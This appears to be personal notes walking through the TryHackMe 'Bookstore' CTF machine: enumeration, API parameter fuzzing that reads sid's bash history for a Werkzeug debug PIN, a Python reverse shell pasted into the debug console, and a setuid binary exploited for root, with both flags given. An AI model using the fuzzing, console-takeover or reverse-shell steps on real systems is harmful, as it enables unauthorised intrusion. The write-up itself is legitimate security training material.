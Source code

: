 #API 

- https://tryhackme.com/room/bookstoreoc

Bookstore is a boot2root CTF machine that teaches a beginner penetration tester basic web enumeration and REST API Fuzzing. Several hints can be found when enumerating the services, the idea is to understand how a vulnerable API can be exploited

` 10.10.108.88 `

`nmap -sS -sV 10.10.108.88`
```
22/ssh 7.6p1 4ubuntu0.3
80/http Apache 2.4.29
5000/http Wekzeug httpd 0.14.1
```

`http://10.10.108.88` Bookstore website
turn on foxyproxy > Books > send to Repeater

we see a base64 comment
```
GY4CANZUEA3TIIBXGAQDOMZAGNQSAMTGEAZGMIBXG4QDONZAG43SAMTFEA3TSIBWMYQDONJAG42CANZVEA3DEIBWGUQDEZJAGYZSANTGEA3GIIBSMYQDONZAGYYSANZUEA3DGIBWHAQDGZRAG43CAM3EEA2TIIBXGQQDGNZAGYZCAN3BEA3TQIBXGUQDOMRAGRQSAMZREA2DS===
```

the `/login.html` has comment : debugger pin is inside sid's bash history file
- username: sid ?

Request: `username=admin&pass=pass `
Response: 
- `ETag: "14cd-5b20a11774700-gzip" `


Target >Site map
```
http://10.10.108.88:5000
API > v2 > resources > books > random4

/api/v2/resources/books/all (Retrieve all books and get the output in a json format)

/api/v2/resources/books/random4 (Retrieve 4 random records)

/api/v2/resources/books?id=1(Search by a specific parameter , id parameter)

/api/v2/resources/books?author=J.K. Rowling (Search by a specific parameter, this query will return all the books with author=J.K. Rowling)

/api/v2/resources/books?published=1993 (This query will return all the books published in the year 1993)

/api/v2/resources/books?author=J.K. Rowling&published=2003 (Search by a combination of 2 or more parameters)
```


```
wfuzz -u http://10.10.108.88:5000/api/v1/resources/books?FUZZ=.bash_history -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404

---
200 show
200 author
200 id
200 published

http://10.10.108.88:5000/api/v1/resources/books?show=.bash_history

--- shows
cd /home/sid whoami export WERKZEUG_DEBUG_PIN=123-321-135 echo $WERKZEUG_DEBUG_PIN python3 /home/sid/api.py ls exit 


http://10.10.108.88:5000/console
123-321-135

-- interactive console

reverse shell generator (revshells.com)
nc -lvnp 9001  (paste in terminal tab)

---- copy & paste in console ---
import socket,
subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.142.18",9001));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
-----
not used:(python3 -c "import pty;pty.spawn('/bin/bash')")

terminal tab shows shell
ls
api.py  api-up.sh  books.db  try-harder  user.txt

cat user.txt
4ea65eb80ed441adb68246ddf7b964ab

ls -la
file try-harder   = ELF
./try-harder
1000              incorrect Try Harder

-rwsrwsr- root sid try-harder

- - - - - - - [make server, get try-harder] - - - -
python3 -m http.server 8080
wget http://IP:8080/try-harder;chmod +x try-harder

upload file to ghidra
- - - - - - - - - - - - - - - - - - - - - - - - - 

1573743953

cd /
cd root/
ls
cat root.txt

e29b05fba5b2a7e69c24a450893158e3

```


user flag
- ` 4ea65eb80ed441adb68246ddf7b964ab `

root flag
- ` e29b05fba5b2a7e69c24a450893158e3 `




---

- https://siunam321.github.io/ctf/tryhackme/Bookstore/
- https://medium.com/@nezekaforcox1/midterm-bookstore-room-e30e4a1592c7
- https://arz101.medium.com/tryhackme-bookstore-9290e5769b0a